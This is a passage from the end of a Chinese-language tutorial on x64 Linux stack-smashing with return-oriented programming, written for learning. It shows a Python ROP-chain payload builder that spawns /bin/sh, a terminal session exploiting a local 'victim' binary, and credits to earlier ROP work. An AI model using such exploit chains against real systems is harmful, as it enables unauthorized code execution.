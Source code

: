     print "\x00"*72 + \
        long2bytes(0x4003f2) + \
        long2bytes(0x4018ed) + \
        long2bytes(0x487318) + \
        "/bin/sh\x00" + \
        long2bytes(0x431b3d) + \
        long2bytes(0x00003b) + \
        long2bytes(0x4333d9) + \
        long2bytes(0x000000) + \
        long2bytes(0x000000) + \
        long2bytes(0x43d371)


现在可以实施攻击了：

    $ python gen-shellcode.py > shellcode
    $ cat shellcode - | ./victim
    What's your name?Hello, 1804289383!
    ls
    gen-shellcode.py  shellcode  victim  victim.c
    mkdir xxx
    ls
    gen-shellcode.py  shellcode  victim  victim.c xxx

可以看出终端被成功打开，ls和mkdir命令都可以运行。

### 5. 致谢
 - 感谢jip的文章 [Stack Smashing On A Modern Linux System](https://www.exploit-db.com/exploits/24085/) 和Ben Lynn的文章   [64-bit Linux Return-Oriented Programming](http://crypto.stanford.edu/~blynn/rop/) ，他们的文章系统的介绍了Linux（x64）下的栈溢出攻击和防护方法。
 - 感谢 Erik Buchanan, Ryan Roemer 和 Stefan Savage 等人对ROP做出的非凡的工作：[Return-Oriented Programming: Exploits Without Code Injection](http://cseweb.ucsd.edu/~hovav/talks/blackhat08.html)，ROP攻击几乎无法阻挡，强大之中又蕴涵着优雅的美感，就像风清杨教给令狐冲的独孤九剑。
 - 感谢JonathanSalwan编写的[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)，他的工具让搜索gadgets的工作变得简单无比。
